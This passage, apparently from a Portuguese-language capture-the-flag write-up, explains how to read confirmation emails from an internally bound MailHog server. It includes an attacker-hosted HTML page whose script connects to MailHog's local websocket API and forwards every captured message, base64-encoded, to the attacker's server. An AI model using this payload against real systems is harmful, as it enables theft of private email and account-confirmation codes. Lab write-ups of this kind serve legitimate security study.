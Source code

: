 Porém, verificamos que o `/email` filtra todos os emails que não são enviadas para o `test@email.htb`. Ou seja, se cadastrarmos um usuário utilizando `@apexservive.htb`, não conseguiremos visualizar o email com o código de confirmação.

`./email-app/routes/index.js`
```javascript
router.get('/email/', async (req, res) => {
    const result = await mailhog.messages(0, 10)

    mails = []

    for (let item of result.items) {
        if (item.to == 'test@email.htb') {
            mails.push(item);
        }
    }

    return res.render('home.html', {result: mails});
});
```

O servidor de email é um Mailhog. Analisando [código-fonte](https://github.com/mailhog/MailHog-Server) conseguimos identificar um endpoint chamado `/api/v2/websocket`. Esse endpoint nos permitirá estabelecer uma conexão websocket e se registrar como listener do mailhog. Sendo assim, toda vez que um email for enviado para o mailhog ele irá enviar uma copia para todos os listeners.

Porém, o mailhog api está rodando na porta 9000 que não está exposta.
Conforme `./config/supervisord.conf
```conf
[program:mailhog]
command=/MailHog_linux_amd64 -api-bind-addr 127.0.0.1:9000 -ui-bind-addr 127.0.0.1:9000  -maildir-path /var/mail/ -storage maildir
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

O script a seguir irá utilizar o endpoint `/api/v2/websocket` para estabelecer uma conexão e monitorar e capturar todos os eventos enviados para os listeners e encaminhar para o nosso servidor.
```html
<html>
    <head>
    </head>
    <body>
        <script>
            function sendMessage(message) {
                fetch('/captureEmail?data=' + btoa(message))
            }
            
            const websocket = new WebSocket("ws://127.0.0.1:9000/api/v2/websocket");
            websocket.onmessage = function(event) {
                sendMessage(event.data);
            };

            websocket.onclose = function(event) {
                sendMessage('close');
            };
        </script>
    </body>
</html>
```
